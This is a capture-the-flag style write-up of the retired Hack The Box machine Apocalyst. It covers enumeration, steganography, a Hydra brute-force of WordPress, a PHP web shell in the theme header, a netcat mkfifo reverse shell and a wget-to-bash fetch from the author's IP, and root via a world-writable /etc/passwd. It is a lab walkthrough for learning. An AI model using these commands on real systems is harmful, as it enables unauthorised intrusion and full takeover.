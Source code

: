 # Apocalyst

This is the write-up for the box Apocalyst that got retired at the 25th November 2017.
My IP address was 10.10.14.28 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.46    apocalyst.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/apocalyst.nmap 10.10.10.46
```

```markdown
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fd:ab:0f:c9:22:d5:f4:8f:7a:0a:29:11:b4:04:da:c9 (RSA)
|   256 76:92:39:0a:57:bd:f0:03:26:78:c7:db:1a:66:a5:bc (ECDSA)
|_  256 12:12:cf:f1:7f:be:43:1f:d5:e6:6d:90:84:25:c8:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apocalypse Preparation Blog
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the web page there is an "Apocalypse Preparation Blog" that is installed on WordPress with the _Twentyseventeen theme_. This gets visible when browsing to the pages hostname _apocalyst.htb_.
```markdown
wpscan --url http://apocalyst.htb --enumerate u
```

The WordPress version is 4.8 and the only user found is called _falaraki_.
Lets look for hidden paths with **Gobuster**:
```markdown
gobuster -u http://apocalyst.htb dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

Almost every word in the wordlist responses with a HTTP Code 301 and when we browse to them we always get the same page with just an image.
The pages redirect to a page with an appending slash at the end of the path and have a length of 157.

When we use the parameter for a trailing slash in _Gobuster_ then we get a HTTP Code 200 for every word in the wordlist.
Lets use **Cewl** to generate a wordlist based upon the words from the blog page:
```markdown
cewl apocalyst.htb -w cewl.txt
```

The _cewl.txt_ will now be used as a wordlist for **Gobuster** with the trailing slash parameter _(-f)_:
```markdown
gobuster -u http://apocalyst.htb dir -w cewl.txt -f -l | tee gobuster.txt
```

We send the output to a file _gobuster.txt_ and filter for any line that has not the length of 157 in it.
```markdown
cat gobuster.txt | grep -v 'Size: 157'
```

There is the word **Rightiousness** that responds with a length of 175.

Browsing to that page we still get the same image but a comment in the source that says _needle_.
It seems like we found the needle in the haystack and have to do something with this image.

### Analyzing the image

When getting an image file, it is often good to look for hidden files in them via **Steganography**.
Using **Steghide** to try to extract files from it:
```markdown
steghide extract -sf image.jpg
```

This works without a password and extracts the file _list.txt_ which seems to be a wordlist with 486 words.

### Authenticating on WordPress

We use the wordlist we gathered with **Hydra** to get the authentication credentials for the user _falaraki_:
```markdown
hydra -l falaraki -P list.txt apocalyst.htb http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fapocalyst.htb%2Fwp-admin%2F&testcookie=1:is incorrect"
```

After a while the password is found:
> Transclisiation

Now access with the credentials is granted and we modify a PHP file to get code execution.
```markdown
Appearance --> Editor --> Theme Header
```

Modifying the _header.php_ file to execute the following code:
```php
<?php
echo system($\_REQUEST['cmd']);
// (...)
?>
```

Browsing to "hxxp://apocalyst.htb/?cmd=whoami" outputs _www-data_ from the `whoami` command in the source.
With this command execution we can start a reverse shell:
```markdown
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.28 9001 >/tmp/f

# URL-encoded:
http://apocalyst.htb/?cmd=rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.28+9001+>/tmp/f
```

Executing this results in starting a reverse shell on the listener that listens on my IP and port 9001.

## Privilege Escalation

To get an attack surface it would be useful to start any Linux enumeration script on the box:
```markdown
wget http://10.10.14.28/LinEnum.sh | bash
```

One interesting result is that **/etc/passwd** is writeable by all users:
```markdown
-rw-rw-rw- 1 root root 1637 Jul 26  2017 /etc/passwd
```

This means that it is possible to create users or change passwords from other users. Lets create a password for a new user:
```markdown
openssl passwd -1 -salt newuser Pass1234
```

And then edit the file to create _newuser_ with the pasword and UserID and GroupID 0:
```markdown
newuser:$1$newuser$82ynj4089D97/6jtzM22O.:0:0:root:/root:/bin/bash
```

Now we can switch with `su newuser` to the created user and start a root shell!
